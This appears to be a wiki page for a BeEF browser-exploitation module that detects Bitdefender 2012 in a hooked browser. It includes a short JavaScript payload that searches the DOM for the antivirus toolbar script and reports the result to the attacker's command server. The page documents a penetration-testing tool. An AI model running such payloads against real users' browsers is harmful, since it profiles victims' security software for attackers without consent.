 ##Summary

* **Objective**: Detect Bit Defender 2012 on the system
* **Date**: June 2013
* **Authors**: Nbblrr
* **Browsers**: All
* Code

##Internal Working

Bit Defender 2012 includes a javascript script in each browser to display this bar :
[[Images/module_bitdefender2012_bar.png|align=center]]

So it is easy to look for the script in the DOM :

```javascript
    var temp=document.body.innerHTML;
    var key="netdefender/hui/ndhui.js";
    if(temp.indexOf(key)>0) {
        beef.net.send('<%= @command_url %>', <%= @command_id %>,'bitdefender=Installed');
    } else {
        beef.net.send('<%= @command_url %>', <%= @command_id %>,'bitdefender=Not Installed');
    };
```


## Screenshots

[[Images/module_bitdefender2012_bar.png|align=center]]

[[Images/module-detect-bitdefender2012.png|align=center]]

##Feedback

